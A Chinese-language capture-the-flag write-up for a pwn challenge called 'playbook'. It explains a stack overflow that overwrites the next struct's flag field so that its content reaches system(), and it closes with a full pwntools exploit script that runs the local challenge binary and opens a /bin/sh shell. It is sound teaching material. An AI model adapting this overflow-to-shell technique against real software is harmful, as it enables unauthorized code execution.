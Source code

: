 随便找了一个 libc-2.39.so patch 上去打的，可能和原始题目的 libc 版本不同，可以注意一下   

## playbook

经典栈题，基本都是利用题目具体逻辑条件来攻击   
本题在 bss 段维护了一个 `playbook array`，每个元素为以下结构体   
```c
struct playbook {
  unsigned flag;
  unsigned children[10];
  char content[0x200];
};
```
它的漏洞是可以先栈上向前溢出，控制 fgets 的 size, 从而 content 可以溢出控制下一个结构体的 `flag`, `children`, `content` 较为前面的部分   
该题目通过 `flag` 控制 `playbook` 的类型，`flag|2 == 2` 的话，标志该结构体的 content 可以当作 `system` 的第一个参数执行，但是检查了 `content` 为 `sleep 1`, `date`, `ls`   
通过溢出，我们可以覆盖下一个 `playbook` 的 `flag` 使得 `flag|2 == 2` 满足条件，然后 `content` 设置为 `/bin/sh\x00` 即可   

这道题原语转换还是感觉有点小难orz   

```py
from pwn import *
context(os='linux', log_level='debug')
# first set cmd for the 610th chunk, then incline the child for 4 times, then exit, do the second time, end_step for 2 times and incline step once, to let v14 be a big number
# then we overflow the content, setting the overflowed note to /bin/sh   

p = process("./chal")
for i in range(610):
    p.recvuntil("5. Quit\n")
    p.sendline("2")
    p.recvuntil("Enter new playbook in the SOPS language. Empty line finishes the entry.\n")
    p.sendline("cmd: ls")
    p.sendline("")
p.recvuntil("5. Quit\n")
p.sendline("2")
p.recvuntil("Enter new playbook in the SOPS language. Empty line finishes the entry.\n")
p.sendline("cmd: ls")
for i in range(4):
    p.sendline("STEP")
p.sendline("")
p.recvuntil("5. Quit\n")
p.sendline("2")
# gdb.attach(p, '''
# b* 0x401fcf
# ''')
# pause()
p.recvuntil("Enter new playbook in the SOPS language. Empty line finishes the entry.\n")
for  i in range(2):
    p.sendline("ENDSTEP")
p.sendline("STEP")
note = b"a" * 512 + p8(3)
note = note.ljust(512 + 44, b'a')
note += b"/bin/sh\x00"
payload = b"note: " + note
p.sendline(payload)
p.sendline("")
# todo check out which book is copied into
p.recvuntil("5. Quit\n")
p.sendline("4")
p.recvuntil("Enter playbook id:\n")
p.sendline(str(0x26a))
p.interactive()
```
